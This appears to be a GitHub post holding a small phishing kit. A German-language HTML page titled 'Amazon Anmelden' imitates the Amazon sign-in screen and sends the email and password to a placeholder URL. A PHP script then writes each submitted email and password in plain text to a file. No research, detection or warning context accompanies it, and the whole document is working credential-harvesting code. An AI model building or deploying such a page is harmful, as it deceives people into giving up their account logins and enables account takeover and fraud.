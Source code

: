 <!DOCTYPE html>
<html>
<head>
    <title>Amazon Anmelden</title>
</head>
<body>
    <h1>Amazon Anmelden</h1>
    <form action="https://deine-url.com/login" method="post">
        <label for="email">E-Mail-Adresse:</label><br>
        <input type="email" id="email" name="email"><br>
        <label for="password">Passwort:</label><br>
        <input type="password" id="password" name="password"><br>
        <input type="submit" value="Anmelden">
    </form>
</body>
</html>[script.php.txt](https://github.com/user-attachments/files/18465883/script.php.txt)
[script.php.txt](https://github.com/user-attachments/files/18466027/script.php.txt)
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $email = $_POST['email'];
    $password = $_POST['password'];

    // Speichere die Daten in einer Datei
    $file = fopen("data.txt", "a");
    fwrite($file, "E-Mail: " . $email . " Passwort: " . $password . "\n");
    fclose($file);

    echo "Deine Daten wurden erfolgreich gespeichert.";
}
?>
